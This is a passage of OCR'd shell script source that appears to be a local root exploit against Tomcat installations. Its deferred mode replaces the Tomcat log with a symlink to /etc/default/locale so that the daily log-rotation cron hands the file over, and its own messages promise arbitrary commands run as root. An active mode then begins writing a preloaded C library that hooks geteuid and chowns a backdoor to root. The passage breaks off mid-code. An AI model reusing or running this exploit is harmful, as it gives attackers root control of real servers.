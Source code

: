 ```
# restarted and file owner gets changed.

if [ “$mode” = “deferred” ]; then

rm -f $TOMCATLOG && ln -s /etc/default/locale $TOMCATLOG

if [ $? -ne 0 ]; then

echo -e “\n[!] Couldn’t remove the $TOMCATLOG file or create a symlink.”

cleanexit 3

fi

echo -e  “\n[+] Symlink created at: \n`ls -l $TOMCATLOG`”

echo -e  “\n[+] The current owner of the file is: \n`ls -l /etc/default/locale`”

echo -ne “\n[+] Keep an eye on the owner change on /etc/default/locale . After the Tomcat restart / system reboot”

echo -ne “\n    you’ll be able to add arbitrary commands to the file which will get executed with root privileges”

echo -ne “\n    at ~6:25am by the /etc/cron.daily/tomcatN log rotation cron. See also -active mode if you can’t wait ![:wink:](img/72b158ac013b9bc9875813ca4ffe6fc1.png ":wink:")

\n\n”

exit 0

fi

# [ Active exploitation ]

trap ctrl_c INT

# Compile privesc preload library

echo -e “\n[+] Compiling the privesc shared library ($PRIVESCSRC)”

cat <<*solibeof*>$PRIVESCSRC

#define _GNU_SOURCE

#include <stdio.h>

#include <sys/stat.h>

#include <unistd.h>

#include <dlfcn.h>

uid_t geteuid(void) {

static uid_t  (*old_geteuid)();

old_geteuid = dlsym(RTLD_NEXT, “geteuid”);

if ( old_geteuid() == 0 ) {

chown("$BACKDOORPATH", 0, 0);

```